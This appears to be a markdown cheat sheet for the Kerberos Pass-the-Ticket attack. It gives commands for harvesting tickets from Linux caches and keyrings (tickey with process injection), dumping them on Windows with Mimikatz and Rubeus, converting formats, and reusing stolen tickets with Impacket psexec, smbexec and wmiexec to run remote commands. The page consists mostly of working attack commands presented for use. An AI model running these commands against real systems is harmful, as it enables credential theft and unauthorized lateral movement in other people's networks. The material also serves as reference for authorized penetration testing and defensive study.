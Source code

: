 

## Pass The Ticket (PTT)

### Harvest tickets from Linux

Check type and location of tickets:

```shell
grep default_ccache_name /etc/krb5.conf
```
If none return, default is FILE:/tmp/krb5cc_%{uid}.

In case of file tickets, you can copy-paste (if you have permissions) for use them.

In case of being *KEYRING* tickets, you can use [tickey](https://github.com/TarlogicSecurity/tickey) to get them:

```shell
# To dump current user tickets, if root, try to dump them all by injecting in other user processes
# to inject, copy tickey in a reachable folder by all users
cp tickey /tmp/tickey
/tmp/tickey -i
```

### Harvest tickets from Windows

With [Mimikatz](https://github.com/gentilkiwi/mimikatz):
```shell
mimikatz # sekurlsa::tickets /export
```

With [Rubeus](https://github.com/GhostPack/Rubeus) in Powershell:
```shell
.\Rubeus dump

# After dump with Rubeus tickets in base64, to write the in a file
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<bas64_ticket>"))
```


To convert tickets between Linux/Windows format with [ticket_converter.py](https://github.com/Zer1t0/ticket_converter):

```
python ticket_converter.py ticket.kirbi ticket.ccache
python ticket_converter.py ticket.ccache ticket.kirbi
```

### Using ticket in Linux:

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:
```shell
# Set the ticket for impacket use
export KRB5CCNAME=<TGT_ccache_file_path>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
